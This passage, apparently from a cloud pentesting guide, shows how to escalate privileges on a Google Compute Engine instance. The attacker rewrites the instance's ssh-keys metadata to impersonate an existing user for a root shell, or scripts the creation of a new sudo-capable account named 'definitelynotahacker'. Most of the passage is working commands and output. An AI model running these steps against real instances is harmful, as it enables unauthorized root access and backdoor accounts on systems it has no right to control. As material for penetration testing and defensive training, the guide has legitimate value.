 Notice the slightly odd format of the public keys - the username is listed at the beginning (followed by a colon) and then again at the end. We'll need to match this format. Unlike normal SSH key operation, the username absolutely matters!

Save the lines with usernames and keys in a new text file called `meta.txt`.

Let's assume we are targeting the user `alice` from above. We'll generate a new key for ourselves like this:

```
$ ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```

Take the output of the command above and use it to add a line to the `meta.txt` file you create above, ensuring to add `alice:` to the beggining of your new public key.

`meta.txt` should now look something like this, including the existing keys and the new key you just generated:

```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```

Now, you can re-write the SSH key metadata for your instance with the following command:

```
$ gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

You can now access a shell in the context of `alice` as follows:

```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```

##### Create a new privileged user

No existing keys found when following the steps above? No one else interesting in `/etc/passwd` to target?

You can follow the same process as above, but just make up a new username. This user will be created automatically and given rights to `sudo`. Scripted, the process would look like this:

```
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
```